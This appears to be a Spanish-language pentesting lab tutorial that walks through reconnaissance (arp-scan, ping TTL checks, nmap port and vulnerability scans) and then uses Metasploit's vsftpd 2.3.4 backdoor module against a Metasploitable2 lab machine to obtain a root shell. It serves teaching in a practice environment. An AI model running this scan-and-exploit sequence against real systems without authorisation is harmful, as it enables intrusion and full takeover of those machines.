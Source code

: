 # Uso Básico de Metasploit – Linux - vsftpd

Maquinas que vamos a utilizar Kali Linux y Metasploitable2 (se trata de una máquina que presenta multitud de vulnerabilidades, lo que nos permite practicar pentesting de una forma sencilla).


![image.png](./imagenes/image.png)

En nuestra maquina Linux hacemos un **arp-scan para ver que equipos hay en nuestra red** local.

```bash
sudo arp-scan -I eth0 --localnet
```

![image.png](./imagenes/image%201.png)

- En este caso tenemos dos IPs que que pueden ser nuestro maquina victima. V**amos a hacer una traza "ICMP Echo Request” mediante un Ping** y veremos su respuesta a la  verificación si ese dispositivo está accesible en la red . Y **mediante el TTL de respuesta** intentar **saber de que dispositivos se tratan**.
    
    ```bash
    ping -c 1 10.0.3.3
    ```
    
    ![image.png](./imagenes/image%202.png)
    

```bash
ping -c 1 10.0.3.7
```

![image.png](./imagenes/image%203.png)

Como vemos en la **IP 10.0.3.3 el TTL es 255, a**lgunos **dispositivos de red** suelen usar TTL  255 como TTL inicial predeterminado. 

**IP 10.0.3.7 el TTL es 64, a**lgunos **dispositivos Linux** usan 64 como TTL inicial predeterminado.

- Seguidamente después de localizar la IP de nuestra maquina victima . Vamos a hacer un **reconocimiento de puertos con NMAP**.
    
    ```bash
    nmap -p- --open -sS -sC -sV -min-rate 2000 -n -vvv -Pn 10.0.3.7 -oN escaneo
    ```
    
    ![image.png](./imagenes/image%204.png)
    

Como vemos esta maquina tiene muchos puerto abiertos (Mirar Apéndice: Puertos y Servicios más Comunes). 

Vamos a escoger por ejemplo el **puerto 21 que es donde corre el FTP**.

![image.png](./imagenes/image%205.png)

Probamos si tiene alguna vulnerabilidad.

```bash
nmap --script "vuln" -p21 10.0.3.7
```

![image.png](./imagenes/image%206.png)

- Abrimos el Metasploit
    
    ![image.png](./imagenes/image%207.png)
    

Buscamos la vulnerabilidad a través del CVE

`search CVE-2011-2523`

![image.png](./imagenes/image%208.png)

Nos encontramos que no encuentra nada. Esto puede ser por varias razones, a veces dentro del exploit no viene con con el CVE y si viene con el nombre del servicio. Debemos entonces buscar de otras formas por ejemplo vamos a buscar por el servicio y versión que esta corriendo en el puerto.

![image.png](./imagenes/image%209.png)

`search vsFTP 2.3.4`

![image.png](./imagenes/image%2010.png)

`use 0`

![image.png](./imagenes/image%2011.png)

`show options`

![image.png](./imagenes/image%2012.png)

Vamos a rellenar los parámetros obligatorios (si sabemos algún datos de los no obligatorios también debemos rellenarlo para mejorar la posibilidad de éxito).

`set RHOSTS 10.0.3.7`

`show options`

![image.png](./imagenes/image%2013.png)

**NOTA:** El servicio **FTP** por defecto corre en el puerto 21 pero puede darse el caso que en alguna maquina el servicio corra en otro puerto por tanto **debemos verificar que el puerto RPORT sea el correcto**.

Ejecutamos el exploit: `run`

![image.png](./imagenes/image%2014.png)

**NOTA:** Cuando hacemos una intrusión el puerto que se utiliza es un puerto al azar. El puerto 21 solo se utiliza para entrar.

Miramos que clase de usuario soy con el comando `whoami` y lanzamos una shell para movernos mejor.

`whoami`

`shell`

![image.png](./imagenes/image%2015.png)

**Ya estaríamos dentro con privilegios de Root**.